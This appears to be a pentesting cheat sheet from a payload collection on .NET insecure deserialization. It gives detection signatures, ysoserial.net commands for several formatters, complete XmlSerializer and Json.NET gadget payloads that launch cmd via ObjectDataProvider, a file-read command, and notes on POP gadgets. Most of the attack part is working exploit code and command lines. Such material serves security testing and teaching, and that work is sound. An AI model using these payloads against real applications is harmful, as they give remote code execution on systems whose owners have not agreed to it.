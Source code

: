 # .NET Deserialization

> .NET serialization is the process of converting an object’s state into a format that can be easily stored or transmitted, such as XML, JSON, or binary. This serialized data can then be saved to a file, sent over a network, or stored in a database. Later, it can be deserialized to reconstruct the original object with its data intact. Serialization is widely used in .NET for tasks like caching, data transfer between applications, and session state management.


## Summary

* [Detection](#detection)
* [Tools](#tools)
* [Formatters](#formatters)
    * [XmlSerializer](#xmlserializer)
    * [DataContractSerializer](#datacontractserializer)
    * [NetDataContractSerializer](#netdatacontractserializer)
    * [LosFormatter](#losformatter)
    * [JSON.NET](#jsonnet)
    * [BinaryFormatter](#binaryformatter)
* [POP Gadgets](#pop-gadgets)
* [References](#references)


## Detection

* `AAEAAD` (Hex) = .NET deserialization BinaryFormatter
* `FF01` (Hex) / `/w` (Base64) = .NET ViewState

Example: `AAEAAAD/////AQAAAAAAAAAMAgAAAF9TeXN0ZW0u[...]0KPC9PYmpzPgs=`


## Tools

* [pwntester/ysoserial.net - Deserialization payload generator for a variety of .NET formatters](https://github.com/pwntester/ysoserial.net)
```ps1
$ cat my_long_cmd.txt | ysoserial.exe -o raw -g WindowsIdentity -f Json.Net -s
$ ./ysoserial.exe -p DotNetNuke -m read_file -f win.ini
$ ./ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc" -t
$ ./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
```

## Formatters

![NETNativeFormatters.png](https://github.com/swisskyrepo/PayloadsAllTheThings/raw/master/Insecure%20Deserialization/Images/NETNativeFormatters.png?raw=true)    
.NET Native Formatters from [pwntester/attacking-net-serialization](https://speakerdeck.com/pwntester/attacking-net-serialization?slide=15)


### XmlSerializer

* In C# source code, look for `XmlSerializer(typeof(<TYPE>));`.
* The attacker must control the **type** of the XmlSerializer.
* Payload output: **XML**

```xml
.\ysoserial.exe -g ObjectDataProvider -f XmlSerializer -c "calc.exe"
<?xml version="1.0"?>
<root type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
        <ExpandedElement/>
        <ProjectedProperty0>
            <MethodName>Parse</MethodName>
            <MethodParameters>
                <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                    <![CDATA[<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" xmlns:b="clr-namespace:System;assembly=mscorlib" xmlns:c="clr-namespace:System.Diagnostics;assembly=system"><ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start"><ObjectDataProvider.MethodParameters><b:String>cmd</b:String><b:String>/c calc.exe</b:String></ObjectDataProvider.MethodParameters></ObjectDataProvider></ResourceDictionary>]]>
                </anyType>
            </MethodParameters>
            <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
        </ProjectedProperty0>
    </ExpandedWrapperOfXamlReaderObjectDataProvider>
</root>
```


### DataContractSerializer

> The DataContractSerializer deserializes in a loosely coupled way. It never reads common language runtime (CLR) type and assembly names from the incoming data. The security model for the XmlSerializer is similar to that of the DataContractSerializer, and differs mostly in details. For example, the XmlIncludeAttribute attribute is used for type inclusion instead of the KnownTypeAttribute attribute.

* In C# source code, look for `DataContractSerializer(typeof(<TYPE>))`.
* Payload output: **XML**
* Data **Type** must be user-controlled to be exploitable


### NetDataContractSerializer 

> It extends the `System.Runtime.Serialization.XmlObjectSerializer` class and is capable of serializing any type annotated with serializable attribute as `BinaryFormatter`.

* In C# source code, look for `NetDataContractSerializer().ReadObject()`.
* Payload output: **XML**

```ps1
.\ysoserial.exe -f NetDataContractSerializer -g TypeConfuseDelegate -c "calc.exe" -o base64 -t
```


### LosFormatter

* Use `BinaryFormatter` internally.

```ps1
.\ysoserial.exe -f LosFormatter -g TypeConfuseDelegate -c "calc.exe" -o base64 -t
```


### JSON.NET

* In C# source code, look for `JsonConvert.DeserializeObject<Expected>(json, new JsonSerializerSettings`.
* Payload output: **JSON**

```ps1
.\ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc.exe" -t
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35', 
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c calc.exe']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```


### BinaryFormatter

> The BinaryFormatter type is dangerous and is not recommended for data processing. Applications should stop using BinaryFormatter as soon as possible, even if they believe the data they're processing to be trustworthy. BinaryFormatter is insecure and can’t be made secure.

* In C# source code, look for `System.Runtime.Serialization.Binary.BinaryFormatter`.
* Exploitation requires `[Serializable]` or `ISerializable` interface.
* Payload output: **Binary**


```ps1
./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
```


## POP Gadgets

These gadgets must have the following properties:
* Serializable
* Public/settable variables
* Magic "functions": Get/Set, OnSerialisation, Constructors/Destructors

You must carefully select your **gadgets** for a targeted **formatter**.


List of popular gadgets used in common payloads.
* **ObjectDataProvider** from `C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF\PresentationFramework.dll`
    * Use `MethodParameters` to set arbitrary parameters
    * Use `MethodName` to call an arbitrary function 
* **ExpandedWrapper**
    * Specify the `object types` of the objects that are encapsulated
    ```cs
    ExpandedWrapper<Process, ObjectDataProvider> myExpWrap = new ExpandedWrapper<Process, ObjectDataProvider>();
    ```
* **System.Configuration.Install.AssemblyInstaller**
    * Execute payload with Assembly.Load   
    ```cs
    // System.Configuration.Install.AssemblyInstaller
    public void set_Path(string value){
        if (value == null){
            this.assembly = null;
        }
        this.assembly = Assembly.LoadFrom(value);
    }
    ```


## References

- [ARE YOU MY TYPE? Breaking .NET sandboxes through Serialization - Slides - James Forshaw - September 20, 2012](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_Slides.pdf)
- [ARE YOU MY TYPE? Breaking .NET sandboxes through Serialization - White Paper - James Forshaw - September 20, 2012](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_WP.pdf)
- [Attacking .NET Deserialization - Alvaro Muñoz - April 28, 2018](https://youtu.be/eDfGpu3iE4Q)
- [Attacking .NET Serialization - Alvaro - October 20, 2017](https://speakerdeck.com/pwntester/attacking-net-serialization?slide=11)
- [Basic .Net deserialization (ObjectDataProvider gadget, ExpandedWrapper, and Json.Net) - HackTricks - July 18, 2024](https://book.hacktricks.xyz/pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net)
- [Bypassing .NET Serialization Binders - Markus Wulftange - June 28, 2022](https://codewhitesec.blogspot.com/2022/06/bypassing-dotnet-serialization-binders.html)
- [Exploiting Deserialisation in ASP.NET via ViewState - Soroush Dalili (@irsdl) - April 23, 2019](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)
- [Finding a New DataContractSerializer RCE Gadget Chain - dugisec - November 7, 2019](https://muffsec.com/blog/finding-a-new-datacontractserializer-rce-gadget-chain/)
- [Friday the 13th: JSON Attacks - DEF CON 25 Conference - Alvaro Muñoz (@pwntester) and Oleksandr Mirosh - July 22, 2017](https://www.youtube.com/watch?v=ZBfBYoK_Wr0)
- [Friday the 13th: JSON Attacks - Slides - Alvaro Muñoz (@pwntester) and Oleksandr Mirosh - July 22, 2017](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf)
- [Friday the 13th: JSON Attacks - White Paper - Alvaro Muñoz (@pwntester) and Oleksandr Mirosh - July 22, 2017](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf)
- [Now You Serial, Now You Don't - Systematically Hunting for Deserialization Exploits - Alyssa Rahman - December 13, 2021](https://www.mandiant.com/resources/blog/hunting-deserialization-exploits)
- [Sitecore Experience Platform Pre-Auth RCE - CVE-2021-42237 - Shubham Shah - November 2, 2021](https://blog.assetnote.io/2021/11/02/sitecore-rce/)